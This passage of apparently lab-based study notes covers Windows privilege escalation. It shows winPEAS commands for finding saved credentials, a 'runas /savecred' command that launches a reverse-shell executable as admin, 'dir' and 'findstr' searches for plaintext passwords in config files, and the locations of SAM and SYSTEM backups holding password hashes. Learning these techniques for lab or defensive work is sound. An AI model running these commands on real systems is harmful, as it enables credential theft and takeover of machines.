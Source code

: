 We can also list them using **winPEAS**:

```cmd
C:\PrivEsc>.\winPEASany.exe cmd windowscreds
```

Then we can use them with the `runas` command:

```cmd
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

### Plaintext passwords in config files

- In th current directory, recursively search for files either with "pass" in their names or ending in ".config": 

```cmd
dir/s *pass* == *.config
```

- In th current directory, recursively search for file containing the word "password" or edning in ".xml", ".txt" or ".ini": 

```cmd
findstr /si password *.xml *.ini *.txt
```

- Alternatively, we can use **winPEAS**:

```cmd
C:PrivEsc> .\winPEASany.exe quiet cmd searchfast filesinfo
[+] Unnattend Files()
    C:\Windows\Panther\Unattend.xml
<Password>                    <Value>cGFzc3dvcmQxMjM=</Value>                    <PlainText>false</PlainText>                </Password>
```

> Here the password is base64 encoded.

### Security Account Manager (SAM) 

Password hashes are stored in the **Security Account Manager** (SAM)

The hashes are encrypted with a key stored in a file called **SYSTEM**.

Both are usually located in `C:\Windows\System32\config` but they're locked when Windows is running.

Backups can exist in multiple locations:
- `C:\Windows\Repair`
- `C:\Windows\System32\config\RegBack`

#### Practical example

Once again with **winPEAS** we can identify the location of these backups:

```cmd
C:PrivEsc> .\winPEASany.exe quiet cmd searchfast filesinfo
```
